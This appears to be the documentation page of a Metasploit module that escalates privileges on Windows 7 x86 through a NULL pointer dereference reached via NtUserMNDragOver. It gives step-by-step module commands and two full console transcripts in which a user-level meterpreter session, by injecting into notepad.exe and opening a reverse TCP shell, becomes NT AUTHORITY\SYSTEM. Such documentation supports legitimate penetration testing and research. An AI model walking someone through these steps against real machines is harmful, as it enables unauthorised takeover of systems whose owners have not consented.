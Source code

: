 ## Vulnerable Application

This module exploits a NULL pointer dereference vulnerability in MNGetpItemFromIndex(), which is reachable via a NtUserMNDragOver() system call.
The NULL pointer dereference occurs because the xxxMNFindWindowFromPoint() function does not effectively check the validity of the tagPOPUPMENU objects it processes before passing them on to MNGetpItemFromIndex(), where the NULL pointer dereference will occur.
This module has been tested against Windows 7 x86 SP0 and SP1. Offsets within the solution may need to be adjusted to work with other versions of Windows, such as Windows Server 2008.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x86
1. `use exploit/windows/local/ntusermndragover`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP0 x86

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.15:49158 (192.168.56.15)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Launching notepad.exe to host the exploit...
[+] Process 3464 launched.
[*] Injecting exploit into 3464 ...
[*] Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.15
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.15:49159) at 2020-04-29 17:14:46 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Windows 7 SP1 x86

```

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.5:49157 (192.168.56.5)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Launching notepad.exe to host the exploit...
[+] Process 2696 launched.
[*] Injecting exploit into 2696 ...
[*] Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.5
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.5:49158) at 2020-04-29 17:18:00 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
